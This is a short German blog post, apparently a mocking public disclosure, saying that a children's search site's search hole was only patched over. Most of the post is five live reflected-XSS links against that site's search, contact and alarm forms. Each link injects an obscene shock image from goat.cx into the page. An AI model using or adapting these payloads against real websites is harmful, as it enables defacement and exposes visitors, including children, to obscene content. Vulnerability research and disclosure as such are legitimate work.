 <html><body><p>Wie <a href="http://www.die-welt.net/index.php/blog/203/Frau_Merkel_fragt_Finn%2C_ob_er_Goatse_mag">am Donnerstag berichtet</a>, wollte ich wissen, ob <a href="http://www.fragfinn.de" target="_blank">Finn</a> Goatse mag. Offensichtlich nicht, denn das Loch in der Suche wurde gefixt. Naja, gefixt ist das falsche Wort, würgaraundet eher:<br>
<br>
<a href="http://www.fragfinn.de/kinderliste/suche.html?ql=&amp;zip=%22%3E%3Ch1%3ELeider%20immer%20noch%3C/h1%3E%3Cimg%20src=%22http://goat.cx/pump.jpg%22%3E&amp;submitted=Abschicken" target="_blank">XSS in der erweiterten Suche nach Region (PLZ-Feld)</a><br>
<a href="http://www.fragfinn.de/kinderliste/eltern/kontakt.html?name=%22%3E%3Cimg%20src=%22http://goat.cx/pump.jpg%22%3E" target="_blank">XSS im Kontaktformular (Namens-Feld)</a><br>
<a href="http://www.fragfinn.de/kinderliste/eltern/kontakt.html?email=%22%3E%3Cimg%20src=%22http://goat.cx/pump.jpg%22%3E" target="_blank">XSS im Kontaktformular (EMail-Feld)</a><br>
<a href="http://www.fragfinn.de/kinderliste/tools/alarm.html?name=%22%3E%3Cimg%20src=%22http://goat.cx/pump.jpg%22%3E" target="_blank">XSS im Alarmformular (Namens-Feld)</a><br>
<a href="http://www.fragfinn.de/kinderliste/tools/alarm.html?email=%22%3E%3Cimg%20src=%22http://goat.cx/pump.jpg%22%3E" target="_blank">XSS im Alarmformular (EMail-Feld)</a><br>
<br>
Und das ist erst der Anfang, aber ich habe gerade keine Lust weiter zu forschen... Gute Nacht.</p></body></html>